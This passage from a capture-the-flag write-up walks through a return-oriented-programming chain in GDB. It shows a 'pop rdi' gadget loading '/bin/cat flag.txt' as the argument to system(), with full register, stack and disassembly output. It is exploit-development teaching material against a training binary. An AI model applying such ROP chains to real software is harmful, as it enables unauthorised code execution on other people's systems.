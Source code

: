 
In the debugger, we can analyze our ROP chain in action:

1. We set a breakpoint on the pwnme() function's return address.
2. We can see that "/bin/cat flag.txt" will be popped into RDI.
3. We can see that we are calling `system()` with /bin/cat flag.txt as the first argument. In x64, the first argument is always read in the RDI register.

In the GDB output below, we see the execution of the first ROP gadget where the memory address on the top of the stack is popped into the RDI register.
This will set the first argument for our system() call which we will invoke in the next ROP gadget.

```
[ Legend: Modified register | Code | Heap | Stack | String ]
───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── registers ────
$rax   : 0xb               
$rbx   : 0x0               
$rcx   : 0x00007f69152b6ff3  →  0x5577fffff0003d48 ("H="?)
$rdx   : 0x0               
$rsp   : 0x00007ffd6377d6f0  →  0x0000000000601060  →  "/bin/cat flag.txt"
$rbp   : 0x4141414141414141 ("AAAAAAAA"?)
$rsi   : 0x00007f6915387723  →  0x389670000000000a
$rdi   : 0x00007f6915389670  →  0x0000000000000000
$rip   : 0x00000000004007c3  →  <__libc_csu_init+99> pop rdi
$r8    : 0xb               
$r9    : 0x2               
$r10   : 0xfffffffffffff24b
$r11   : 0x246             
$r12   : 0x00000000004005b0  →  <_start+0> xor ebp, ebp
$r13   : 0x0               
$r14   : 0x0               
$r15   : 0x0               
$eflags: [ZERO carry PARITY adjust sign trap INTERRUPT direction overflow resume virtualx86 identification]
$cs: 0x0033 $ss: 0x002b $ds: 0x0000 $es: 0x0000 $fs: 0x0000 $gs: 0x0000 
───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── stack ────
0x00007ffd6377d6f0│+0x0000: 0x0000000000601060  →  "/bin/cat flag.txt"   ← $rsp
0x00007ffd6377d6f8│+0x0008: 0x0000000000400560  →  <system@plt+0> jmp QWORD PTR [rip+0x200aba]        # 0x601020 <system@got.plt>
0x00007ffd6377d700│+0x0010: 0x00007ffd6377d70a  →  0x0697000000010000
0x00007ffd6377d708│+0x0018: 0x0000000100000000
0x00007ffd6377d710│+0x0020: 0x0000000000400697  →  <main+0> push rbp
0x00007ffd6377d718│+0x0028: 0x00007f69151ee7d9  →  <init_cacheinfo+297> mov rbp, rax
0x00007ffd6377d720│+0x0030: 0x0000000000000000
0x00007ffd6377d728│+0x0038: 0x9863914f814d864d
─────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── code:x86:64 ────
 →   0x4007c3 <__libc_csu_init+99> pop    rdi
     0x4007c4 <__libc_csu_init+100> ret    
     0x4007c5                  nop    
     0x4007c6                  nop    WORD PTR cs:[rax+rax*1+0x0]
     0x4007d0 <__libc_csu_fini+0> repz   ret
     0x4007d2                  add    BYTE PTR [rax], al
─────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── threads ────
[#0] Id 1, Name: "split", stopped 0x4007c3 in __libc_csu_init (), reason: SINGLE STEP
───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── trace ────
[#0] 0x4007c3 → __libc_csu_init()
[#1] 0x400560 → puts@plt()
[#2] 0x7ffd6377d70a → add BYTE PTR [rax], al
────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
gef➤  
```